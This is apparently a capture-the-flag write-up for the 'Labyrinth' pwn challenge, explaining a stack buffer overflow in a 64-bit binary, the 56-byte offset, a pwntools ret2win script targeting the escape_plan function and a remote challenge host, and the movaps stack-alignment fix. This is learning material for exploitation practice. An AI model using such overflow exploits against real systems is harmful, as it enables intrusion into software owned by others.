



# Labyrinth

We're given an 64-bit ELF called Labyrinth.

Firstly, i analyzed the program using `ida` to disassemble it. We can see a main function of this program.This program expects us to input `69` or `069` to get another user input.Otherwise, the profram will be exit.



## Find The Offset

Next, we'll check the buffer offset of this program.We can use `cyclic` in `pwngdb` to find the offset.

To overwrite the return address, we can fill the buffer with `56` byte followed by the destination address.We'll jump to `escape_plan` address cause it opens the flag.txt.




payload :

```
from pwn import *

context.binary = elf = ELF("./labyrinth", checksec=False)


if args.LOCAL:
    p = process(elf.path)
else:
    p = remote('94.237.122.241', 52656)

gdb.attach(p, gdbscript='')

buffer = b"A" * 56
escape = elf.sym['escape_plan']

pay = buffer
pay += p64(escape)

p.sendlineafter(b">> ", b"69")
p.sendlineafter(b">> ", pay)

p.interactive()
```


When i run the payload, the program crashses annd stop at `movaps` intrunction, it's caleed the movaps issue. 

`When the source or destination operand is a memory operand, the operand must be aligned on a 16-byte (0x10) boundary or a general-protection exception`


```
```
pwndbg> x/i $rip
=> 0x70f22b677693:      movaps XMMWORD PTR [rsp+0x40],xmm0
pwndbg>
```
```

## Stack  Alignment Fix

In order to align our stack, we can add a `ret` address, or use the address after the push intruction of `escape_plan` function.

```
Dump of assembler code for function escape_plan:
   0x0000000000401255 <+0>:     push   rbp
   0x0000000000401256 <+1>:     mov    rbp,rsp   <== we can use this or use the ret address
   0x0000000000401259 <+4>:     sub    rsp,0x10
   0x000000000040125d <+8>:     mov    edi,0xa
```

Now, it'work and we got the flag.



[solver](sv.py)


